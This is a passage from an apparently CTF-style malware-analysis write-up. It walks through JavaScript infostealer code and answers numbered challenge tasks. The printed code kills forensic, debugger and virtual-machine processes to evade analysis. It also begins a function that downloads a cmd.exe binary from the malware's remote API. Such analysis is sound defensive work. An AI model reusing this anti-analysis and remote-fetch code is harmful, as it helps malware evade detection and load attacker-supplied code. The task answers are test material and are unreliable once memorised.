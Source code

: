         const tasks = execSync('tasklist');
        [
            'opera', 'fakenet', 'dumpcap', 'httpdebuggerui', 'wireshark', 'fiddler', 'vboxservice', 'df5serv', 'vboxtray', 'vmtoolsd',
            'vmwaretray', 'ida64', 'ollydbg', 'pestudio', 'vmwareuser', 'vgauthservice', 'vmacthlp', 'x96dbg', 'vmsrvc', 'x32dbg',
            'vmusrvc', 'prl_cc', 'prl_tools', 'xenservice', 'qemu-ga', 'joeboxcontrol', 'ksdumperclient', 'ksdumper', 'joeboxserver',
            'vmwareservice', 'vmwaretray', 'discordtokenprotector'
        ].forEach((task) => {
            if(tasks.includes(task))
            execSync(`taskkill /f /im ${task}.exe`);
        });
    };



First it checks that the total memory is greater than 2GB and that the
hostname isn't in a specific list, exiting if either check fails. Then
it loops over a list of forensics tools and if any are in the tasklist,
it tries to kill that process.

The hostname that starts with "arch" is "archibaldpc" (Task 9). The
process check does check for one process twice. To find this I'll use
some Bash foo:



    oxdf@hacky$ echo "'opera', 'fakenet', 'dumpcap', 'httpdebuggerui', 'wireshark', 'fiddler', 'vboxservice', 'df5serv', 'vboxtray', 'vmtoolsd',
            'vmwaretray', 'ida64', 'ollydbg', 'pestudio', 'vmwareuser', 'vgauthservice', 'vmacthlp', 'x96dbg', 'vmsrvc', 'x32dbg',
            'vmusrvc', 'prl_cc', 'prl_tools', 'xenservice', 'qemu-ga', 'joeboxcontrol', 'ksdumperclient', 'ksdumper', 'joeboxserver',
            'vmwareservice', 'vmwaretray', 'discordtokenprotector'" |
    > tr ', ' '\n' | grep . | sort | uniq -c | grep '      2'
          2 'vmwaretray'



It's `echo`ing the list and using `tr` to replace `,` with a newline,
then `grep` to get only non-empty lines, and then `sort | uniq -c` to
get a count of each value, and then `grep` to get the one with two. So
the double check is `vmwaretray` (Task 10)

#### checkCmdInstallation

Next the first block calls `checkCmdInstallation`:



    async function checkCmdInstallation() {
        return await new Promise(async(resolve) => {
            if(!existsSync('C:\\Windows\\system32\\cmd.exe')) {
                const request = await fetch(options.api + 'cmd-file', {
                    method: 'GET',
                    headers: {
                        'Content-Type': 'application/json',
                        'duvet_user': options?.user_id
                    }
                });
        